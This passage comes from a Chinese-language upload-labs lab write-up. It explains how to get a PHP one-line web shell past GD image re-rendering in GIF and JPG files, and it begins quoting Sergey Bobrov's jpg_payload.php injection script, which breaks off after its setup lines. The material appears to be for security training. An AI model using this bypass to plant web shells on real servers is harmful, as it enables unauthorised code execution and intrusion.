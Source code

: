 ```php
exif_imagetype#读取一个图像的第一个字节并检查其签名
```

本函数可用来避免调用其它 exif 函数用到了不支持的文件类型上或和 $_SERVER['HTTP_ACCEPT'] 结合使用来检查浏览器是否可以显示某个指定的图像。

### lab17

>   https://xz.aliyun.com/t/2657

主要是把二次渲染绕过
imagecreatefromjpeg（）函数

首先来看gif图：

将含有一句话的图片马上传，显示失败，下载图片，hex打开发现后面写入的马已被去除，对比前后图片的差异，在未发生变化的地方写入，上传，成功绕过。



再来看png图：

这里有点复杂，直接看上面先知的文章吧

jpg图的话使用脚本做图片马即可。

脚本：

```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

```